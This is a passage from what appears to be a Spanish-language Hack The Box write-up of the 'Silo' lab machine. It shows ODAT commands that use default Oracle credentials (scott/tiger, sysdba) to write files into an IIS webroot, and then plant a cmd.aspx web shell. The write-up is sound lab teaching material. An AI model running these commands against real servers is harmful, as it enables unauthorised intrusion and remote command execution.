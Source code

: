 Probemos ahora con esa ruta y validemos despues en la web:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile 'C:\inetpub\wwwroot' hola.txt hola.txt

[1] (10.10.10.82:1521): Put the hola.txt local file in the C:\inetpub\wwwroot folder like hola.txt on the 10.10.10.82 server
[+] The hola.txt file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the hola.txt file
```

Bien, la ruta existe, ahora validemosla:

![131page80_upfile_holaTXT_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131page80_upfile_holaTXT_done.png)

PERFECTOOOOOO, tenemos acceso a los archivos que subamos al servidor web... ¿Qué se te ocurre?

Pos sí, subamos una web Shell

...

#### Subiendo WebShell

Sabiendo que estamos ante un servidor web y que está siendo mantenido por **Microsoft ASP.NET**, hacemos una búsqueda rápida de que tipo de extensión permite ASP.NET y tenemos:

> **ASP.NET** es un entorno para aplicaciones web desarrollado y comercializado por Microsoft. Los formularios web están contenidos en archivos con una extensión **ASPX**.

Listos, buscando en el repo de [SecLists](https://github.com/danielmiessler/SecLists) encontramos varias web-shells, subiremos `cmd.aspx`:

```bash
❭ ls -la /opt/SecLists/Web-Shells/FuzzDB/
cmd.aspx        cmd.php         cmd-simple.php  list.php        nc.exe          up.php
cmd.jsp         cmd.sh          list.jsp        list.sh         reverse.jsp     up.sh
```

Ejecutamos:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile 'C:\inetpub\wwwroot' lawebshelltremenda.aspx cmd.aspx

[1] (10.10.10.82:1521): Put the cmd.aspx local file in the C:\inetpub\wwwroot folder like lawebshelltremenda.aspx on the 10.10.10.82 server
[+] The cmd.aspx file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the lawebshelltremenda.aspx file
```
